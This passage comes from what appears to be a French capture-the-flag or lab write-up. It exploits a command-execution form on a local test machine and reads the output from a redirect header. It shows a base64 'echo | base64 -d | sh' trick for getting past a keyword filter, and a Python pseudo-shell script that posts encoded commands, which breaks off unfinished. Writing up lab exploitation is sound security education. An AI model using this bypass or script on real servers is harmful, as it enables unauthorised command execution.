 ```html


    Execute: <input type="text" name="cmd" required><br>
    <input type="submit" value="Submit">
    </form>
</body>

</html>
```

Si on tape une commande comme `id` on obtient une erreur 403 mais en regardant attentivement la page web (qui est assez sombre) on peut voir que le résultat dans la page :

`uid=33(www-data) gid=33(www-data) groups=33(www-data)`

On remarque aussi que l'on n'est plus sur ma même page : la soumission de la commande sur `/wish` provoque une redirection sur l'URL `/genie` avec l'output de la commande. C'est à dire que l'on a l'entête suivant :

```http
Location: http://192.168.242.133:7331/genie?name=uid%3D33%28www-data%29+gid%3D33%28www-data%29+groups%3D33%28www-data%29%0A
```

L'autre point c'est que certains mots clés semblent filtrés, ainsi la commande `ls /etc` provoque un message `Wrong choise of words`

Ce filtrage est facilement bypassé en faisant un `echo notre_commande_encodée_en_base64 | base64 -d | sh`

J'ai écrit ce petit script qui donne un semblant de shell :

```python
from urllib.parse import unquote_plus                                                                                  
from base64 import b64encode                                                                                           

import requests                                                                                                        
from requests.exceptions import RequestException                                                                       

sess = requests.session()                                                                                              
while True:                                                                                                            
    cmd = input("$ ").strip()                                                                                          
    if cmd == "quit":                                                                                                  
        break                                                                                                          

    cmd = b64encode(cmd.encode()).decode()                                                                             
    cmd = f"echo {cmd}|base64 -d|sh"                                                                                   
    response = sess.post(                                                                                              
        "http://192.168.242.133:7331/wish",                                                                            
        data={"cmd": cmd},                                                                                             
        allow_redirects=False                                                                                          
```